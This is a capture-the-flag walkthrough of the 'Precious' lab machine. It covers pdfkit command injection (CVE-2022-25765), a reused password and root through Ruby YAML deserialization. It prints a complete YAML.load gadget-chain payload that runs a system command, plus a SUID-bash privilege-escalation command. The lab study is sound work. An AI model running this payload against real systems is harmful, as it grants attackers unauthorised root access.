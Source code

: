 ```yaml
---
description: PDFkit and Deserialization.
---
```


# Precious

## Gaining Access

**Nmap Scan:**

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

Seems like a web vulnerability exploit kinda machine.

### PDFKit

<figure><img src="../../../.gitbook/assets/image (10) (2) (3).png" alt=""><figcaption></figcaption></figure>

Website to PDF ind of functions run on plugins, and depending on the language used to do this conversion (JS, PHP), there are exploits for them.

For instance, we can redirect this website to our own hosted HTTP server and convert that. Alternatively, attempts can be made in order to exploit the website via LFI to read the files on the machine.

For enumeration purposes, I began by generating a PDF and downloading it to my machine from this website. We can enumerate the PDF to see if there is a particular software being used.

<figure><img src="../../../.gitbook/assets/image (11) (2) (2).png" alt=""><figcaption></figcaption></figure>

This version of pdfkit is vulnerable to RCE using CVE-2022-25765. There are public exploit scripts available for this.

{% embed url="https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795" %}

Following the exploit, we can test to see if we indeed have RCE:

<figure><img src="../../../.gitbook/assets/image (8) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5) (2) (1).png" alt=""><figcaption></figcaption></figure>

Works! Now we just need to gain a reverse shell. I used a simple bash shell to do so.

<figure><img src="../../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (7) (2) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Getting Henry

When we gain access as the user ruby, the flag is not there. There is another user named henry in this machine.

<figure><img src="../../../.gitbook/assets/image (7) (1) (2).png" alt=""><figcaption></figcaption></figure>

We don't have permissions to read the flag from henry's directory. However, when poking around ruby's directory and looking into the .bundle directory, we can find henry's password.

<figure><img src="../../../.gitbook/assets/image (6) (3) (1).png" alt=""><figcaption></figcaption></figure>

With this, we can SSH in as henry for a better shell. Then, we can grab the user flag.

### Ruby Deserialization

Checking sudo privileges, we find that henry is able to execute the following:

<figure><img src="../../../.gitbook/assets/image (4) (2) (2).png" alt=""><figcaption></figcaption></figure>

Intriguing. The script is as shown below:

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

From the looks of this script, YAML.load function is being used. There are certain deserialization exploits for this. The attack is known as 'YAML Deserialization'

Hacktricks has a relevant page covering it.

{% embed url="https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization" %}

When searching along the lines of Ruby deserialisation attacks through YAML.load, I found this article which included a PoC.

{% embed url="https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/" %}

How this works is thorugh implementing a gadget chain that was previously used with other Ruby YAML exploits. This basically gives us RCE over the machine as root.&#x20;

We just need to put the malicious YAML file in some writeable place and execute it. Works because the script does not check for an absolute path. Here's the PoC:

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

I changed the command to `chmod +s /bin/bash` and tried it out. Worked!

<figure><img src="../../../.gitbook/assets/image (15) (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
